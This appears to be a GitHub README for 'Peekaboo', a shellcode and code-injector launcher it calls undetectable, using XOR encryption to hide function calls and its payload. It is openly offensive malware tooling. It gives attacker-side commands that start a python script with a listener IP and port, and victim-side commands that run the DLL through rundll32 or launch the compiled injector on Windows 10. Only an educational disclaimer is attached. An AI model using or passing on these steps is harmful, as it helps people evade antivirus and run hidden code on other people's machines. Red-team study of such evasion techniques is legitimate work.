 # Peekaboo

Simple undetectable shellcode and code injector launcher example. Inspired by RTO malware development course.

## Main logic

XOR encryption and decryption for functions call and main payload - `calc.exe` as example.

## Usage
## 1. DLL
### on attacker machine
run python script with flags:
```bash
python2.7 peekaboo.py -l 10.10.14.3 -p 4444
```

### then on victim machine (windows x64):
run on powershell or cmd promt:
```
rundll32 .\peekaboo.dll, TpLbDJOWUjUmGyuHWpKk
```

## 2.Injector
### on attacker machine:
run python script on linux:
```bash
python2.7 peekaboo-inj.py -l 10.10.14.3 -p 4444
```

compile in VS - windows machine x64:
```cmd
.\compile-inj.bat
```

### then on victim machine (windows x64):
```
.\peekaboo.exe
```

## Issues.
Tested on:
1. Kali linux 2020.1, Windows 10 x64 - attacker machines
2. Windows 10 x64 - victim machine
3. Calc.exe - payload

## TODO
Compile injector in Kali linux

## Attention
This tool is a Proof of Concept and is for Educational Purposes Only!!! Author takes no responsibility of any damage you cause

## License
[MIT](https://choosealicense.com/licenses/mit/)
